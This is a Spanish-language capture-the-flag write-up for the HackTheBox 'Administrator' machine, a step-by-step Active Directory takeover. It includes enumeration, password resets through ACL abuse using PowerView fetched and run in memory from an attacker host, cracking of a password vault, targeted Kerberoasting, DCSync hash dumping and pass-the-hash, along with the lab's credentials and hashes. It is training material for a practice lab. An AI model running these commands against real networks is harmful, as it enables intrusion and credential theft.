# Administrator

<figure><figcaption></figcaption></figure>

## Reconnaissance

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Administrator**.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.42 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,59357,59362,59369,59374,59387,64847 10.10.11.42 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
netexec smb 10.10.11.42

ldapsearch -x -H ldap://10.10.11.42 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts
```

<figure><figcaption></figcaption></figure>

## RPC Enumeration

Debido que disponemos de credenciales de un usuario del dominio que nos aporta _HackTheBox_, procederemos a realizar una enumeración a través del protocolo RPC con la herramienta [**rpcenum**](https://github.com/s4vitar/rpcenum).

Verificamos que hemos procedido a enumerar la lista de usuarios que se encuentran en el dominio de **administrator.htb**.

```bash
rpcenum -e All -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```

<figure><figcaption></figcaption></figure>

Guardaremos los usuarios del dominio enumerados en el archivo **users.txt.**

```bash
catnp users.txt
```

<figure><figcaption></figcaption></figure>

## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una lista potencial de usuarios, probaremos a realizar un **AS-REP Roast Attack** para intentar obtener un Ticket Granting Ticket (TGT) para luego crackearlo de manera offline.

Comprobamos que no obtenemos ningún TGT debido que ningun usuario dispone del atributo (DONT\_REQ\_PREAUTH) de Kerberos.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt administrator.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs) <a href="#kerberoasting-attack-getuserspns" id="kerberoasting-attack-getuserspns"></a>

Dado que tenemos credenciales de un usuario válido del dominio, procederemos a realizar un **Kerberoasting Attack** para intentar obtener un TGS (Ticket Granting Service) para posteriormente crackear de manera offline el hash obtenido.

En este caso, comprobamos que no encontramos a ningún usuario kerberosteable.

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/Olivia -request 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Con **ldapdomaindump** dumpearemos toda la información del LDAP a través del usuario y contraseña que disponemos. Nos generará los resultados en distintos formatos.

```bash
ldapdomaindump -u 'administrator.htb\Olivia' -p 'ichliebedich' 10.10.11.42 -o ldap
```

<figure><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario que disponemos forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

<figure><figcaption></figcaption></figure>

## Abusing WinRM

Procederemos a acceder al WinRM a través de **evil-winrm** con el usuario que nos proporciona _HackTheBox_ y hemos comprobado que forma parte del grupo "Remote Management Users".

```bash
netexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**


```bash
bloodhound-python -c all -u Olivia -p 'ichliebedich' -d administrator.htb -ns 10.10.11.42
```


<figure><figcaption></figcaption></figure>

## Initial Acess

### Abusing GenericAll privileges (Changing user credentials from Powershell)

Revisando vectores de ataque desde BloodHound, verificamos que a través del usuario que disponemos (olivia@administrator.htb) tiene privilegios de **GenericAll** sobre el usuario (michael@administrator.htb).

<figure><figcaption></figcaption></figure>

Esto significa que podemos realizar un cambio de contraseña al usuario objetivo, en este caso, como tenemos acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><figcaption></figcaption></figure>

Volveremos a la terminal del WinRM, importaremos el módulo de _PowerView.ps1_ que disponemos en nuestra Kali y procederemos a asignarle una nueva contraseña al usuario (michael@administrator.htb).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">ls PowerView.ps1
<strong>
</strong><strong>python3 -m http.server 80
</strong>
IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword 
</code></pre>

<figure><figcaption></figcaption></figure>

Verificaremos que se han modificado las credenciales de usuario (michael@administrator) a través de **netexec**. Comprobamos que se ha realizado el cambio y además nos aparece como **pwn3d**, lo cual indica que podemos conectarnos remotamente al DC.

Accederemos a través del WinRM con el nuevo usuario obtenido.

```bash
netexec winrm 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'

evil-winrm -i 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'
```

<figure><figcaption></figcaption></figure>

### Abusing ForceChangePassword privileges

Volviendo a revisar el BloodHound en busca de realizar un **lateral movement** o elevar nuestros privilegios, comprobamos que el usuario que disponemos actualmente (michael@administrator.htb) tiene privilegios de **ForceChangePassword** sobre el usuario (benjamin@administrator.htb).&#x20;

Con lo cual, podemos también cambiarle la contraseña al usuario objetivo.

<figure><figcaption></figcaption></figure>

Realizaremos el mismo proceso desde la terminal que tenemos iniciada sesión la cuenta de (michael@administrator.htb).

Importaremos en memoria el módulo de _PowerView.ps1_ y procederemos a realizar el cambio de la contraseña del usuario objetivo.


```powershell
python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```


<figure><figcaption></figcaption></figure>

### FTP Enumeration

Verificaremos nuevamente las credenciales modificadas del usuario (benjamin@administrator.htb).&#x20;

Además, anteriormente en la enumeración con **nmap** verificamos que se encuentra el puerto 21 (FTP) . Probaremos de acceder con las credenciales de este usuario para acceder al protocolo FTP.

```bash
netexec smb 10.10.11.42 -u 'Benjamin' -p 'Gzzcoo123'

ftp 10.10.11.42

ftp> ls

ftp> get Backup.psafe3
```

<figure><figcaption></figcaption></figure>

Verificando el archivo descargado de FTP, verificamos que se trata de um archivo de "Password Safe V3 database", que es un gestor de contraseñas similar a KeePass.

<figure><figcaption></figcaption></figure>

Probando de abrir el archivo de la base de datos de las contraseñas a través de la aplicación "Password Safe", verificamos que nos pide credenciales para abrir el archivo en cuestión.

<figure><figcaption></figcaption></figure>

A través de la herramienta **pwsafe2john** podemos obtener el hash de la contraseña para abrir el archivo de Password Safe. Almacenaremos el hash en "hash\_backup" y a través de **john** procederemos a&#x20;

```bash
pwsafe2john Backup.psafe3 > hash_backup

john --wordlist=/usr/share/wordlists/rockyou.txt hash_backup
```

<figure><figcaption></figcaption></figure>

Introduciremos la contraseña obtenida después de crackear el hash para abrir el archivo de la base de datos del Password Safe.

<figure><figcaption></figcaption></figure>

Verificamos que hemos podido acceder al archivo donde están almacenadas contraseñas y comprobamos que obtenemos una contraseña de la usuaria "Emily" que si bien recordamos es un usuario válido del dominio. Podemos intentar verificar si estas credenciales sirven para autenticarnos en el DC.

<figure><figcaption></figcaption></figure>

Validaremos las credenciales del usuario "emily@administrator.htb" , accederemos al WinRM y verificaremos la flag **user.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

evil-winrm -i 10.10.11.42 -u 'Emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing GenericWrite Privileges for SPN Spoofing and TGS Harvesting (TargetedKerberoast)

Se identificó que la cuenta **Emily** tenía el permiso **GenericWrite** sobre la cuenta **Ethan**, lo que permitía modificar atributos como **`servicePrincipalName (SPN)`**. Aprovechando esto, se utilizó **TargetedKerberoast** para asignar temporalmente un SPN ficticio a la cuenta **Ethan**.

Luego, se solicitó un **TGS (Ticket Granting Service)** al DC, obteniendo un **hash cifrado** asociado al servicio. Finalmente, el SPN asignado fue eliminado para evitar dejar evidencias.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Se realizó el ataque a través de **targetedKerberoast** y se obtuvo un TGS (Ticket Granting Service) sobre el usuario "ethan@administrator.htb", que posteriormente crackearemos de manera offline.


```bash
python3 /opt/targetedKerberoast/targetedKerberoast.py -v -d 'administrator.htb' -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```


<figure><figcaption></figcaption></figure>

Procederemos a crackear el hash obtenido para obtener la contraseña del usuario "ethan@adminsitrator.htb".

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><figcaption></figcaption></figure>

Validaremos que las credenciales son válidas para el dominio.

```bash
netexec smb 10.10.11.42 -u 'Ethan' -p 'limpbizkit'
```

<figure><figcaption></figcaption></figure>

### DCSync Attack (secretsdump)

Al revisar nuevamente en **BloodHound**, se verificó que el usuario **ethan@administrator.htb** dispone de privilegios **DCSync**, lo que nos permite llevar a cabo un **DCSync Attack**. Esto nos da la posibilidad de obtener todos los hashes **NTLM** del archivo **NTDS.dit**, que es la base de datos de **Active Directory** y almacena las contraseñas de todos los usuarios del dominio.

<figure><figcaption></figcaption></figure>

Se realizó el ataque de **DCSync Attack** y obtuvimos todos los hashes NTLM, incluídos los del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm administrator.htb/ethan@10.10.11.42
```

<figure><figcaption></figcaption></figure>

Verficaremos que el hash NTLM es válido y procederemos a conectarnos a través de **evil-winrm** con el usuario **administrator@administrator.htb** y verificar la flag de **root.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<figure><figcaption></figcaption></figure>
